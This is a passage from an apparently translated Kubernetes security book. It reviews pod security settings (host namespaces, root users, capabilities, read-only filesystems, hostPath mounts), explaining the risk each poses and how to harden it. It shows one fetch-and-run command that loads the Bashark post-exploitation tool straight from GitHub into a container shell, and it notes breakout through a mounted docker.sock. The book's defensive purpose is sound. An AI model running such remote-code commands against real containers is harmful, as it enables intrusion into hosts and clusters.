检查容器内部 */proc* 文件系统中的分发版本，以了解主机的发行版版本。这是因为 PID 命名空间与主机共享。

###### 注意

如果没有 `privileged` 权限，容器中的 root 用户无法访问主机的进程命名空间：

```
/ $ grep PRETTY_NAME /proc/1/root/etc/*release*
grep: /proc/1/root/etc/*release*: Permission denied
```

在这种情况下，攻击者仅限于根据其 UID 的权限搜索文件系统或内存，寻找关键材料或敏感数据。

### .spec .hostNetwork

主机网络访问允许我们嗅探流量或在主机适配器上发送虚假流量（但仅在我们有权限和启用了 `CAP_NET_RAW` 或 `CAP_NET_ADMIN` 时），并规避网络策略（这取决于来自 Pod 网络命名空间中预期源 IP 的流量）。

它还授予访问绑定到主机环回适配器（根网络命名空间中的 `localhost`）的服务的权限，传统上这被视为安全边界。尽管 Kubernetes 的 API 服务器在 v1.10 中弃用并在 v1.20 中最终移除了此模式，但 SSRF 攻击仍可能存在。

### .spec .hostAliases

允许 Pod 覆盖其本地的 */etc/hosts* 文件。这可能会比安全意义更多地影响操作（比如不能及时更新导致中断）。

### .spec .hostIPC

使 Pod 访问主机的进程间通信命名空间，从而可能干扰主机上的受信任进程。这很可能会通过 */usr/bin/ipcs* 或共享内存中的文件实现简单的主机 ompromise。

### containers[] .securityContext .runAsNonRoot

在 Linux 系统中，root 用户拥有特殊权限，尽管在容器内权限被减小，但内核代码仍然会特别对待 root 用户。

阻止 root 用户拥有容器内的进程是一项简单有效的安全措施。它防止了本书列出的许多容器越界攻击，并符合标准和已建立的 Linux 安全实践。

### containers[] .securityContext .runAsUser > 10000

除了阻止 root 运行进程外，强制容器化进程使用高 UID 降低了在没有用户命名空间的情况下越界的风险：如果容器中的用户（例如 12345）在主机上有相同的 UID（即也是 12345），并且容器中的用户通过挂载卷或共享命名空间能够访问它们，则资源可能会意外共享，从而允许容器越界（例如文件系统权限和授权检查）。

### containers[] .securityContext .readOnlyRootFilesystem

不可变性不是安全边界，因为代码可以从互联网下载并由解释器（如 Bash、PHP 和 Java）运行，而不使用文件系统，正如 `bashark` 后渗透工具所示：

```
root@r00t:/tmp [0]# source <(curl -s \
  https://raw.githubusercontent.com/redcode-labs/Bashark/master/bashark.sh)

__________               .__                  __               ________     _______
\______   \_____    _____|  |__ _____ _______|  | __ ___  __   \_____  \    \   _  \
 |    |  _/\__  \  /  ___/  |  \\__  \\_  __ \  |/ / \  \/ /    /  ____/    /  /_\  \
 |    |   \ / __ \_\___ \|   Y  \/ __ \|  | \/    <   \   /    /       \    \  \_/   \
 |______  /(____  /____  >___|  (____  /__|  |__|_ \   \_/ /\  \_______ \ /\ \_____  /
        \/      \/     \/     \/     \/           \/       \/          \/ \/       \/

[*] Type 'help' to show available commands

bashark_2.0$

```

像 */tmp* 和 */dev/shm* 这样的文件系统位置可能会始终可写，以支持应用程序行为，因此只读文件系统不能作为安全边界。不可变性可以防止一些恶意和自动化攻击，但不能作为坚固的安全边界。

诸如`falco`和`tracee`之类的入侵检测工具可以检测到容器中生成的新 Bash shell（或任何未列入白名单的应用程序）。此外，`tracee`还可以通过监视*/proc/pid/maps*中曾经可写但现在可执行的内存，检测到试图通过内存执行的恶意软件。

###### 注意

我们将在第九章中更详细地讨论 Falco。

### containers[] .securityContext .capabilities .drop | index(“ALL”)

您应始终放弃所有功能，并仅重新添加应用程序运行所需的那些功能。

### containers[] .securityContext .capabilities .add | index(“SYS_ADMIN”)

此能力的存在是一个警示信号：尝试找到其他部署容器的方法，或者部署到具有自定义安全规则的专用命名空间中，以限制妥协的影响。

### containers[] .resources .limits .cpu, .memory

限制容器可用内存的总量可以防止拒绝服务攻击将主机机器挤垮，因为容器会首先终止。

### containers[] .resources .requests .cpu, .memory

请求资源有助于调度程序有效地“装箱”资源。过度请求资源可能是对手试图将新 Pod 调度到其控制的另一节点的尝试。

### .spec .volumes[] .hostPath .path

可写的*/var/run/docker.sock*主机挂载允许突破到主机。攻击者可以将符号链接写入任何文件系统，这些文件系统容易受到漏洞，攻击者可以利用该路径来探索和从主机中渗透。

# 进入风暴眼

船长和船员进行了一次徒劳的袭击，但这并非他们的最后一次逃亡活动。

随着我们在这本书中的进展，我们将看到 Kubernetes Pod 组件如何与更广泛的系统交互，我们将见证 Hashjack 船长为利用它们而努力。

# 结论

为了安全地使用 Pod，需要对多个层次的配置进行保护，而您运行的工作负载是 Kubernetes 安全性的软肚腩。

Pod 是集群中的第一道防线，也是保护集群最重要的部分。应用程序代码经常变动，可能成为潜在的可利用漏洞源。

扩展锚和链的比喻，一个集群的强壮程度取决于其最弱的环节。为了能够被证明是安全的，您必须在流水线和准入控制中使用健壮的配置测试、预防性控制和策略，以及运行时入侵检测 —— 因为没有什么是绝对可靠的。
